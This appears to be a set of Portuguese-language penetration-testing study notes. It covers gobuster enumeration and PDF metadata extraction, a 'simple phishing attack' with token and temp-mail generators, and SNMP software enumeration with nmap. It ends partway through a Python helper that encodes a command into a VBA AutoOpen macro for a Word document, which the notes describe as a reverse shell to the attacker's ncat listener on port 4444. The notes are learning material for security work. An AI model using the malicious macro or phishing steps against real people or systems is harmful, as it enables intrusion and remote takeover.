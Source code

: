
```shell
# Usar Gobuster para encontrar PDFs
gobuster dir -u http://<URL_DO_SERVIDOR> -w /usr/share/wordlists/dirb/common.txt -x pdf

# Baixar o arquivo encontrado
wget http://<URL_DO_SERVIDOR>/info.pdf

# Extrair metadados do PDF
exiftool info.pdf
```

![[Pasted image 20241205163716.png]]

---

## Simples ataque de phishing com geradores de links online
1. abra o link para gerar um novo token
```url
https://canarytokens.orb/nest/generate
```

![[Pasted image 20241205165619.png]]
2. Criando um fake email
```
https://temp-mail.org
```
![[Pasted image 20241205165854.png]]

---
## Enumerando softwares instalados 
Se o host tiver o protocolo SNMP habilitado, você pode usá-lo para coletar informações sobre o software instalado.
```
sudo nmap -sU -p 161 --script snmp-win32-software 192.168.219.196
```

---

## Macros Word
1. Primeira mente crie documento word habilitado com macro.
2. Gere o script VBA para inserir dentro da macro, deve ser digitado o ip e porta (4444) da máquina que vai realizar o ataque do shell reverse com o ncat

```python
import base64


def convert_to_base64_utf16le(input_string):
    utf16le_bytes = input_string.encode('utf-16le')
    base64_bytes = base64.b64encode(utf16le_bytes)
    base64_string = base64_bytes.decode('utf-8')
    return base64_string


def prepare_vba_script(cmd_encoded_to_base64):
    full_script = """
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub
```
